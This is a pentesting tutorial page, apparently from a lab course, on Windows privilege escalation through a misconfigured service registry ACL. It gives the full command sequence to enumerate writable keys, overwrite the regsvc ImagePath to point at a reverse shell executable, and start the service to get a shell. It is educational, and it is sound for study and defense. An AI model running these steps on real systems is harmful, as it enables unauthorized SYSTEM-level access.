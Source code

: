 # Weak Registry Permissions

The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.

```text
accesschk.exe -accepteula -wuvc "Everyone" *
accesschk.exe -accepteula -wuvc "Users" *
accesschk.exe -accepteula -wuvc "Authenticated Users" *
```

Run winPEAS to check for service misconfigurations:

```text
winPEASany.exe quiet servicesinfo
```

![](../../../../../.gitbook/assets/image%20%2876%29.png)

Note that the “regsvc” service has a weak registry entry. We can confirm this with PowerShell:

```text
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```

![](../../../../../.gitbook/assets/image%20%2887%29.png)

Alternatively accesschk.exe can be used to confirm:

```text
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

![](../../../../../.gitbook/assets/image%20%2894%29.png)

verify that we can start the service:

```text
accesschk.exe /accepteula -ucqv user regsvc
```

![](../../../../../.gitbook/assets/image%20%28104%29.png)

now lets check the current value of the service registry entry:

```text
reg query HKLM\System\CurrentControlSet\Services\regsvc
```

![](../../../../../.gitbook/assets/image%20%2899%29.png)

Overwrite the ImagePath registry key to point to our reverse shell executable:

```text
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

![](../../../../../.gitbook/assets/image%20%2873%29.png)

Start a listener on Kali, and then start the service to trigger the exploit:

```text
 net start regsvc
```

![](../../../../../.gitbook/assets/image%20%2895%29.png)





